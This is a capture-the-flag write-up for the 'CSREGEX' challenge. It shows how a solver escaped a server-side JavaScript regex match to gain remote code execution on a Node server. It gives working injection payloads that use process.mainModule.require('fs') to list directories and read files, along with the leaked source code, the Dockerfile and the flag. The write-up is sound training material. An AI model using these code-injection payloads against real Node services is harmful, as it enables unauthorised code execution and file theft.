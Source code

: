 # writup for CSREGEX challange
description:
``
Stop pwning, start learning REGEX! This is such a fine way to ESCAPE the real world...

http://chal.cybersecurityrumble.de:9876

Author: molatho|nviso

(72 solves)
``

Table of contents
=================

<!--ts-->
   * [our process](#gh-md-toc)
   * [solution](#dependency)
<!--te-->

## how we got to the solution
=============================

we are greeted with a regex tesiting page, In the main box you can enter a regular expression, which will be evaluated and the output will be shown in the bottom

``
'A regular expression (shortened as regex or regexp; also referred to as rational expression) is a sequence of characters that define a search pattern. Usually such patterns are used by string-searching algorithms for "find" or "find and replace" operations on strings, or for input validation. It is a technique developed in theoretical computer science and formal language theory.\n\nThe concept arose in the 1950s when the American mathematician Stephen Cole Kleene formalized the description of a regular language. The concept came into common use with Unix text-processing utilities. Different syntaxes for writing regular expressions have existed since the 1980s, one being the POSIX standard and another, widely used, being the Perl syntax.\n\nRegular expressions are used in search engines, search and replace dialogs of word processors and text editors, in text processing utilities such as sed and AWK and in lexical analysis. Many programming languages provide regex capabilities either built-in or via libraries.\n\nhttps://en.wikipedia.org/wiki/Regular_expression'.match(/<user input regex>/gi)
``
this gets transmtted and evaluated on the server. 
Which makes the task pretty obvious, lets escape the .match expression and have server side (remote) code execution


z'.match()/gi); <javascript code>;/
- the first part `z'.match()/gi);` completes the string so it doesnt error
- the end `;/` is to comment out the rest, `/gi`



so we have an RCE, what next?

"fetch is not defined" -- we are running on node and not a web browser

lets see what we can and cannot do:
- we cannot call require
- `child_process` and `fs` arent imported
- we can use `return` to get any data back from the server

thats not much, but we found that we can infact call require by using `process.mainModule.require`

so lets build a little script:
we can return the contents of the current directory with the fs module
``js
//code:
let files = [];
const fs = process.mainModule.require('fs');
fs.readdirSync(".").forEach(file => files.push(file) );
return files;

// exploit:
z'.match()/gi);let files = [];const fs = process.mainModule.require('fs'); fs.readdirSync(".").forEach(file =>  files.push(file) ); return files;/

// result:
{"result":[".dockerignore","api.js","csregex","dist","dockerfile","index.js","leftover.js","node_modules","package-lock.json","package.json","regexer.js","requests.log","simple-fs.js"]}

``



## solution
===========
start reading the files to see if there is anything interesting in either one
``js
// code:
const fs = process.mainModule.require('fs');
const data = fs.readFileSync('api.js', 'utf8');
return(data);/

// exploit:
z'.match()/gi);const fs = process.mainModule.require('fs'); const data = fs.readFileSync('dockerfile', 'utf8'); return(data);/

//results
api.js: "var express = require('express');↵var router = express.Router();↵var RegexEr = require('./regexer')↵↵router.get('/regex/:pattern/:flags/:input', (req, res) => {↵    var params = {↵        pattern: req.params.pattern,↵        input: req.params.input,↵        flags: req.params.flags↵    };↵    try {↵        params.pattern = Buffer.from(req.params.pattern, 'base64').toString();↵        params.input = Buffer.from(req.params.input, 'base64').toString().replace(/\n/gm, "").trim();↵        params.flags = Buffer.from(req.params.flags, 'base64').toString();↵        RegexEr.process(params.pattern, params.flags, params.input)↵            .then((result) => res.status(200).send({result: result}))↵            .catch((err) => res.status(400).send({ error: err.message }));↵↵    } catch (ex) {↵        console.error(ex);↵        res.status(400).send(JSON.stringify(ex));↵    }↵↵});↵↵module.exports = router;"
dockerfile:"from mhart/alpine-node:12\nWORKDIR /app\nCOPY . .\nRUN apk update\nRUN apk upgrade\nRUN apk add bash\nRUN apk add curl\nRUN npm install\nRUN chown root:root .\nRUN chmod -R 755 .\nRUN adduser -D -g '' server\nRUN touch requests.log\nRUN chown server:server requests.log\nRUN chmod +s /usr/bin/curl\nRUN echo 'CSR{r363x_15_fun_r363x_15_l0v3}' > /root/flaggerino_flaggeroni.toxt\nRUN chmod 640 /root/flaggerino_flaggeroni.toxt\nRUN chmod 744 /root\nUSER server\nEXPOSE 8080\nCMD [ \"node\", \"index.js\"]
``

sure enought dockerfile had the flag
``
RUN echo 'CSR{r363x_15_fun_r363x_15_l0v3}'
``


